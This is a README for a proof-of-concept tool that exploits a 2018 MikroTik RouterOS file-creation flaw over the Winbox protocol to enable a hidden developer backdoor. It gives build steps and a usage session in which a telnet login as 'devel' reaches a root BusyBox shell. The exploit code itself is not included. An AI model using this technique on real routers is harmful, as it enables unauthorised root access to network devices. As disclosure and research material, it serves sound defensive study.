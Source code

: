 # HackerFantastic Set Tracefile PoC over 8291

In December of 2018, [@HackerFantastic](https://twitter.com/hackerfantastic) dropped a [zero day](https://seclists.org/fulldisclosure/2018/Dec/28) that allows authenticated users to create arbitrary files on MikroTik's RouterOS. HackerFantastic pointed out that this was a create way to create the backdoor file on versions 3.x through 6.42.0. HF's PoC only showed how to manually exploit this vulnerability though. This PoC will automatically do it over the router's Winbox protocol.

This specific implementation only enables the /pckg/option backdoor (6.41 - 6.42.0).

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage Example

```sh
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ ./hf_tracefile -i 172.20.10.13 -p 8291 -u admin --password lolwat
Success!
albinolobster@ubuntu:~/routeros_internal/poc/hf_tracefile/build$ telnet -l devel 172.20.10.13
Trying 172.20.10.13...
Connected to 172.20.10.13.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2018.04.05-06:39+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5-smp #1 SMP Thu Apr 5 06:24:36 UTC 2018 i686 unknown
# cat /rw/logs/VERSION 
v6.41.4 Apr/05/2018 12:23:55
# 
```
